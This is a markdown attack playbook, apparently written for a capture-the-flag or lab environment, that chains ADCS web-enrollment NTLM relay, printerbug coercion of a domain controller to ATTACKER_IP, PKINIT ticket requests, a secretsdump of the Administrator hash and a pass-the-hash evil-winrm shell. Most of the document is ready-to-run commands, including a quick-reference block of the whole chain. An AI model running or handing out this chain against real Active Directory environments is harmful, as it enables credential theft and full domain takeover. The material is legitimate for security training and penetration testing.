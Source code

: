 # ADCS Relay → Machine Cert → PKINIT TGT → DC Compromise

**Scenario:** Active Directory Certificate Services (ADCS) misconfigurations allow NTLM relay to request machine certificates. With these, we obtain Kerberos TGTs (via PKINIT) and escalate to Domain Admin.

---

## Flow
1) **Run ntlmrelayx** against ADCS web enrollment (`certsrv`).  
2) **Trigger coercion** (printerbug, PetitPotam, etc.) from DC to attacker → relay to ADCS.  
3) **Obtain .pfx cert** for `DC01$`.  
4) **Use PKINITtools** → `gettgtpkinit.py` → craft Kerberos TGT.  
5) **Export ccach** → confirm ticket with `klist`.  
6) **Use secretsdump with -k -no-pass** to dump Administrator hash.  
7) **Evil-WinRM** with PTH to fully compromise.  

References: impacket-ntlmrelayx, printerbug.py, PKINITtools, oscrypto, secretsdump, evil-winrm. 

---

## Setup & OPSEC
- Ensure no local conflicts on ports 80/445/88.  
- Work from venv for PKINITtools.  
- Have a staging dir `/loot/adcs`.  

---

## NTLM Relay → ADCS Enrollment
### ntlmrelayx with ADCS support
```bash
sudo impacket-ntlmrelayx -t http://TARGET/certsrv/certfnsh.asp \
  --adcs -smb2support --template KerberosAuthentication
```
This sets up SMB + HTTP listeners and targets the ADCS web endpoint.

### Coerce DC Authentication
```bash
# Grab coercion script
wget https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/printerbug.py

# Trigger auth from DC01
python3 printerbug.py DOMAIN/user:pass@DC01_IP ATTACKER_IP
```
If successful, `ntlmrelayx` issues a certificate and drops `DC01$.pfx`.

---

## Convert Certificate → Kerberos TGT
### PKINITtools
```bash
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
python3 -m venv .venv && source .venv/bin/activate
pip3 install -r requirements.txt
pip3 install -I git+https://github.com/wbond/oscrypto.git
```

### Request TGT
```bash
python3 gettgtpkinit.py -cert-pfx ../DC01$.pfx \
  -dc-ip DC01_IP 'domain.local/dc01$' /tmp/dc.ccache
```
This generates a valid Kerberos TGT and saves it.

---

## Kerberos Environment Setup
### Export Ticket
```bash
export KRB5CCNAME=/tmp/dc.ccache
klist
```
Expect to see `krbtgt/domain.local`. 

### Kerberos Packages
```bash
sudo apt-get install krb5-user -y
echo "DC01_IP dc01.domain.local" | sudo tee -a /etc/hosts
sudo nano /etc/krb5.conf
# set default_realm = DOMAIN.LOCAL and kdc = dc01.domain.local
```

---

## Exploitation
### Dump Administrator Hash
```bash
impacket-secretsdump -k -no-pass -dc-ip DC01_IP \
  -just-dc-user Administrator 'DOMAIN/DC01$'@DC01.DOMAIN.LOCAL
```
Example output shows Administrator NTLM hash.

### Pass-the-Hash  WinRM
```bash
evil-winrm -i dc01.domain.local -u Administrator -H <NTLM_HASH>
```
Shell as Domain Admin.

### Grab Flag
```powershell
type C:\Users\Administrator\Desktop\flag.txt
```

---

## Quick Reference
```bash
# Relay setup
impacket-ntlmrelayx -t http://DC/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

# Coercion
python3 printerbug.py DOMAIN/user:pass@DC_IP ATTACKER_IP

# PKINIT
python3 gettgtpkinit.py -cert-pfx ../DC01$.pfx -dc-ip DC_IP 'domain.local/dc01$' /tmp/dc.ccache
export KRB5CCNAME=/tmp/dc.ccache
klist

# Dump secrets
impacket-secretsdump -k -no-pass -dc-ip DC_IP -just-dc-user Administrator 'DOMAIN/DC01$'@DC01.DOMAIN.LOCAL

# WinRM
evil-winrm -i dc01.domain.local -u Administrator -H <NTLM_HASH>
```

---

## Tool Links
- impacket-ntlmrelayx — https://github.com/fortra/impacket  
- printerbug — https://github.com/dirkjanm/krbrelayx  
- PKINITtools — https://github.com/dirkjanm/PKINITtools  
- oscrypto fix — https://github.com/wbond/oscrypto  
- evil-winrm — https://github.com/Hackplayers/evil-winrm  
